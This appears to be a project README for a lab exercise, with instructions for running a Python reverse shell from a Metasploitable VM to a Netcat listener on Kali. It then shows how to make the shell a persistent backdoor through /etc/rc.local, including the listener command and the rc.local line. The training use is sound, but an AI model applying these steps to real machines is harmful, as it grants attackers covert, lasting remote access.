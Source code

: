 # Reverse-Shell
(FOR EDUCATIONAL USE ONLY)

Write, set up, and execute a reverse shell in Python on Kali Linux and Metasploitable VM's, and automate this process creating a persistent backdoor.

!!Make sure that Both VM's can communicate with eachother on a secure network!!

On Kali, start a Netcat listener on port 7777: nc -lvnp 7777

  This tells Netcat to listen verbosely on port 7777 and not to close the connection.

On Metasploitable machine, create a Python script: sudo nano reverse_shell.py

  Write or paste the committed code in this file; save and exit the editor.

  Run "python reverse_shell.py" 

A connection should be established on Kali's Netcat listener, providing an interactive shell to the Metasploitable VM.

How to automate this process:

  Open the rc.local file: sudo nano /etc/rc.local

  Before the exit 0 line, add: python /path/to/your/reverse_shell.py &

  In my case: python /home/msfadmin/yannos/reverse_shell.py &

  The "&" makes sure it runs in the background.

Make the script executable: 

  sudo chmod +x /path/to/your/reverse_shell.py

  In my case: sudo chmod +x /home/msfadmin/yannos/reverse_shell.py

  Make sure rc.local is executable: sudo chmod +x /etc/rc.local

  Reboot and start the listener on Kali.

The shell should automatically establish on the listener upon reboot of Metasploitable VM.
